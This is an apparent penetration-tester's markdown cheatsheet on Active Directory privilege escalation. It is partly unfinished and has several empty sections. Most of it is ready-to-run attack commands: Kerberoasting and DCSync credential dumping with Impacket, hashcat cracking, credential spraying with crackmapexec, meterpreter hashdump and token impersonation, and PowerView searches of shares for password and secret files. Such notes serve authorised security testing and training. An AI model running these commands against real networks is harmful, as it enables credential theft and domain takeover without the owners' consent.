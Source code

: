 # Active Directory PrivEsc

## Introduction

## Scripts
[ADAPE]

## Tools

#### SMB enumeration tools

See [SMB tool](SMB-Recon-Cheatsheet.md)

#### Bloodhound and Sharphound

[Sharphound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) is the collector that gathers all the information abnout the 
network and compresses it into a zip file. You can then import this data and view a map of the AD domain. This very import to see weak points
like DCsyncs, Usernames, Trust 


#### Crackmapexec


#### Empire and Starkiller


Rubeus, Seatbelt, Mimikatz...

#### Hashcat/JtR
`hashcat -m 13100 -a 0 hash.txt rockyou.txt`

#### Impacket

Kerberoasting 
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip $IP $DOMAIN.local/$USER:$PASSWORD -request
```
Exploit DCSync Privileges
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip $IP $DOMAIN/$USER@$IP
```

#### Kerbrute

You want to target the subnet and then as you laterally move through the network the Adminstrators and DCs.
`crackmapexec smb $IP -u users.txt -p passes.txt`

#### Metasploit and Proxychains

Metasploit combined with proxychains can used to pivot and access segmented sections of network.
The shells create route through then inaccessable parts of the network can be mapped beyond the shell's address.
To proxy through the network see sections on [proxychains in proxies]() and [metasploit autoroute and socks5 server](). 

Due to Trusts, pivoting in required to hop to the connection between Domains. 
Trust can be: 
1. Directional - The direction of the trusts flows from a trusting domain to a trusted domain.
1. Transitive - The trust relationship expands beyond just two domains to include other trusted domains.

If inclined meterpreter and its commands:
```meterpreter

migrate 	# Don't forget to migrate to better processes as processes die: lsass.exe
hashdump

use incognito
list_token -u
impersonate_token $ TOKEN

```

#### Powerview
PowerView "is a powershell tool to gain network situational awareness one Windows domains."
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Due to AD commands are a restricted to DCs and some(times) Adminstrators. 
Get PowerView on the box, you need some help.
```
. .\PowerView.ps1				# import PowerView
Import Module PowerView.ps1			
Get-NetDomain					# Like ADDomain but lists less information
Get-NetDomainController				# List all Domain Controller
Get-NetForest					# like AdForest
Get-NetDomainTrust				# like NetDomainTrust

Find-InterestingDomainShareFile
-CheckAccess
*password*
*sensitive*
*admin*
*login*
*secret*
*unattend*.xml
*vmdk
*creds*
*credential*
*.config
```


## General Enumeration

```powershell
ipconfig /displaydns	# Get DC ip
Get-ADForest | Select-Object Domains								# Lists all Domains in Forest
Get-ADTrust -Filter * | Select-Object Direction,Source,Target					# List trust information
dsquery group -name "Domain Admins" | dsget group -expand -members				# Query for all DCs
Get-ADDomain | Select-Object NetBIOSName, DNSRoot, InfrastructureMaster				# List all DCs
Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description.length -gt 8 } 	# Searching AD replace *!
```





